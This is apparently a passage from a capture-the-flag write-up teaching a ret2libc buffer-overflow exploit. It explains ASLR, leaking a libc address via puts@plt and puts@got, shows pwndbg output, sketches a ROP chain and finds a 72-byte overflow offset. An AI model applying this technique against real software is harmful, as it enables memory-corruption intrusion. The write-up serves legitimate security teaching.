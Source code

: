 We want to call functions straight from the libc library and build our own exploit.

libc by default has **ASLR** enabled, which means the functions will always run at a different address. (This is to prevent attackers from easily accessing libc functions and running malicious code).

Instead, what we can do is to leak the address of the function on runtime.

To do that, we need to understand what **PLT** and **GOT** is.

https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html

tldr; 
We can call functions using `function@plt`
GOT contains address of dynamically-linked functions (libc address), which is what we want to leak.

What we can do is to leak a function's address by accomplishing the following:

```sh
// can also use other func that takes input
// function can be any that is used in the binary
puts@plt(function@GOT)
```

Let's check for PLT of `puts`:

```sh
pwndbg> plt
Section .plt 0x400480-0x4004c0:
0x400490: puts@plt
0x4004a0: memset@plt
0x4004b0: __isoc99_scanf@plt
```

To find the GOT of any function, we need to run the binary first:

```sh
pwndbg> got
...
GOT protection: Partial RELRO | Found 3 GOT entries passing the filter
[0x601018] puts@GLIBC_2.2.5 -> 0x400496 (puts@plt+6) ◂— push 0 /* 'h' */
[0x601020] memset@GLIBC_2.2.5 -> 0x4004a6 (memset@plt+6) ◂— push 1
[0x601028] __isoc99_scanf@GLIBC_2.7 -> 0x4004b6 (__isoc99_scanf@plt+6) ◂— push 2
```

Essentially, we can use any of the following, but for this example, we will use puts@got.

### How to leak libc address
We are going to build our ROPchain to leak the address. It would look something like this.

`padding + pop_rdi + puts@got + puts@plt + return to main`

Why return to `main`? This is because we need the program to continue running to show the leaked address.

### Calculate offset
BOF & get the offset:
```sh
pwndbg> cyclic -l jaaaaaaa
Finding cyclic pattern of 8 bytes: b'jaaaaaaa' (hex: 0x6a61616161616161)
Found at offset 72
```
